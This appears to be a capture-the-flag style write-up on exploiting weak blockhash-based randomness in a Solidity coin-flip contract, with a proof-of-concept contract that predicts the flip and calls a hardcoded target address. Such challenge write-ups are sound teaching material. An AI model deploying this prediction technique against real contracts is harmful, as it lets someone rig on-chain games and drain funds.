 # Exploit Idea: Predictable Randomness

In this challenge, the idea is to exploit **weak randomness** based on `blockhash`.

---

## Concept Summary

We utilize the fact that:

```solidity
uint256(blockhash(block.number - 1)) / 2**255
```

...will always return either `0` or `1`, effectively leaking the most significant bit of the previous block hash — a weakness that can be exploited to predict the outcome of a coin flip.

---

## Proof of Concept

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8;

event CoinFlipResult(bool result);

contract GetBlockNumberAndHash {

    // Return previous block number
    function getBlockNumer() public view returns (uint256) {
        return block.number - 1;
    }

    // Predict the coin flip result and call the vulnerable contract
    function getCoinFlipPredit() public returns (bool success, bytes memory data) {
        bool predit = 1 == (
            uint256(blockhash(block.number - 1)) /
            57896044618658097711785492504343953926634992332820282019728792003956564819968
        );

        // Hardcoded vulnerable contract address (deployed separately)
        address coinFlipAddress = 0xA0376e3976A6A8Cc4422B88Bb63A1E97Ed846031;

        // Use low-level call to trigger `flip(bool)` function
        (success, data) = coinFlipAddress.call(
            abi.encodeWithSignature("flip(bool)", predit)
        );

        return (success, data);
    }
}
```

---

## Notes

- `FACTOR = 2^255` is used to extract the highest bit from the 256-bit blockhash.
- The `call` method is used here to avoid needing a formal interface, ideal for quick testing.
